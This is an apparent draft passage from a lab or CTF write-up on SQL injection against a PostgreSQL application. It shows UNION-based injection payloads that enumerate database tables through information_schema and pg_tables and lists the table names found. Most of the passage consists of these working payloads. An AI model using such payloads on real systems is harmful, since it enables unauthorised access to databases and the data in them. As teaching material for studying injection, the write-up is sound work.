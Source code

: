          we knew from the error message in Exploit 1 that one of the tables in the database was `account` and this result provides further evidence to support this claim. To find all tables in the database we simply OFFSET iterate as above:

         ```SQL
         '  UNION (SELECT  null, null, table_name, null, null FROM information_schema.tables) LIMIT 1 OFFSET 2;--'
         ```

         from iterating over the query results with OFFSET, we obtain a number
         of [standard SQL system tables](#GET URL) (which we are not interested in at the moment) along with the names of interesting tables:

         ```SQL
         account, fourfoursuser, solution
         ```

         alternative approaches:
         -could have used [pg_tables](#find url for pg tables)

         -could have used array to list to get everything at once
          ```SQL
         '  UNION (SELECT  null, null, array_to_string( ARRAY(SELECT DISTINCT tablename FROM pg_tables), ','), null, null FROM account) ;--'
         ```
         -could have used public with schema to focus on the tables we want
         ```SQL
         '  UNION (SELECT  null, null, array_to_string( ARRAY(SELECT DISTINCT schemaname FROM pg_tables), ','), null, null FROM account) ;--'
         ```
         ```SQL
         '  UNION (SELECT  null, null, array_to_string( ARRAY(SELECT DISTINCT tablename FROM pg_tables WHERE schemaname='public'), ','), null, null FROM account) ;--'
         ```
         ![alt text](v1e5_2.png)
